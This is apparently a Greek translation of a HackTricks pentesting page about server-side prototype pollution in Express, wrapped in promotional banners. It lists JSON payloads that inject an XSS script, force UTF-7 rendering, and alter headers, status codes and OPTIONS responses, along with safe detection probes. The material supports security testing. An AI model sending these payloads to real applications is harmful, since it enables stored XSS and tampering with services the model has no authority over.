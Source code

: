 # Εργαλεία για την Προτοτυποποίηση του Πρωτοκόλλου του Express

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Εξυπηρετήστε απαντήσεις XSS

**Για περισσότερες λεπτομέρειες [ανατρέξτε στην αρχική έρευνα](https://portswigger.net/research/server-side-prototype-pollution)**

### Αλλαγή του τύπου περιεχομένου JSON σε HTML

Σε μια εφαρμογή Express που χρησιμοποιεί μια **απόκριση με τύπο περιεχομένου JSON** και αντανακλά ένα JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Σε αυτές τις περιπτώσεις, δεν είναι συνήθως δυνατή η εκτέλεση XSS με τύπο περιεχομένου JSON. Ωστόσο, με την προσβασιμότητα του πρωτοτύπου μπορούμε να **παραπλανήσουμε το Express να εξυπηρετήσει μια απόκριση HTML**. Αυτή η ευπάθεια βασίζεται στην εφαρμογή της εντολής **`res.send(obj)`** και στη χρήση του body parser με τον τύπο περιεχομένου application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Με το **μολυσμένο** **`body`** και **`_body`** ιδιότητες, είναι δυνατόν να προκαλέσετε το **Express να εξυπηρετήσει τον τύπο περιεχομένου HTML** και να αντανακλά την ιδιότητα `_body`, με αποτέλεσμα την αποθηκευμένη XSS.

### Απεικόνιση UTF7

Είναι δυνατόν να κάνετε το express **να απεικονίσει περιεχόμενο UTF-7 με**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Ασφαλείς τεχνικές σάρωσης

### Κενά JSON

Το παρακάτω PP θα προσθέσει ένα επιπλέον κενό στα γνωρίσματα ενός JSON χωρίς να διακόψει τη λειτουργικότητα:
```json
{"__proto__":{"json spaces": " "}}
```
Έπειτα, ένα αντανακλασμένο JSON θα φαίνεται ως εξής:
```json
{"foo":  "bar"} -- Note the extra space
```
### Αποκαλυμμένα Κεφαλίδες

Το παρακάτω PP gadget θα κάνει τον διακομιστή να στείλει πίσω την HTTP κεφαλίδα: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Απαιτείται η εγκατάσταση του **CORS module**

### **Μέθοδος OPTIONS**

Με τον παρακάτω φορτίο, είναι δυνατό να **αποκρύψετε μια μέθοδο από μια απάντηση OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Κατάσταση**

Είναι δυνατόν να αλλάξετε τον **κωδικό κατάστασης που επιστρέφεται** χρησιμοποιώντας τον παρακάτω φορτίο PP:
```json
{"__proto__":{"status":510}}
```
### Σφάλμα

Όταν αναθέτετε σε ένα πρότυπο ένα πρωτογενές στοιχείο, όπως ένα αλφαριθμητικό, παράγεται μια λειτουργία **no-op καθώς το πρότυπο πρέπει να είναι ένα αντικείμενο**. Εάν προσπαθήσετε να αναθέσετε ένα αντικείμενο προτύπου στο ίδιο το `Object.prototype`, αυτό θα **εκτινάξει μια εξαίρεση**. Μπορούμε να χρησιμοποιήσουμε αυτές τις δύο συμπεριφορές για να **ανιχνεύσουμε εάν η προτύπωση του πρωτοτύπου ήταν επιτυχής**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Ανακλαστική Τιμή

Όταν μια εφαρμογή περιλαμβάνει ένα αντικείμενο στην απόκρισή της, δημιουργώντας ένα χαρακτηριστικό με ένα **ασυνήθιστο όνομα δίπλα στο `__proto__`**, μπορεί να είναι ενδιαφέρον. Ειδικότερα, αν **μόνο το ασυνήθιστο χαρακτηριστικό επιστρέφεται** στην απόκριση, αυτό μπορεί να υποδηλώνει την ευπάθεια της εφαρμογής:
```json
{"unusualName":"value","__proto__":"test"}
```
Επιπλέον, σε περιπτώσεις όπου χρησιμοποιείται μια βιβλιοθήκη όπως το Lodash, η ρύθμιση μιας ιδιότητας τόσο μέσω της προτύπου ρύπανσης (PP) όσο και απευθείας μέσα στο αντικείμενο προσφέρει μια άλλη διαγνωστική προσέγγιση. Εάν μια τέτοια ιδιότητα παραλείπεται από την απόκριση, υποδηλώνει ότι το Lodash επαληθεύει την ύπαρξη της ιδιότητας στον στόχο αντικείμενο πριν από τη συγχώνευση:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Διάφορα

### Επιτρέψτε τελείες

Υπάρχει μια επιλογή στο Express που σας επιτρέπει να **δημιουργείτε αντικείμενα από τις παραμέτρους του αλφαριθμητικού ερωτήματος**.\
Σίγουρα θα μπορούσατε να το χρησιμοποιήσετε σε μια αλυσίδα σφάλματος για να εκμεταλλευτείτε μια ευπάθεια **προσβολής του προτύπου**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` δημιουργεί ένα αντικείμενο στο Node.**

## Αναφορές

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
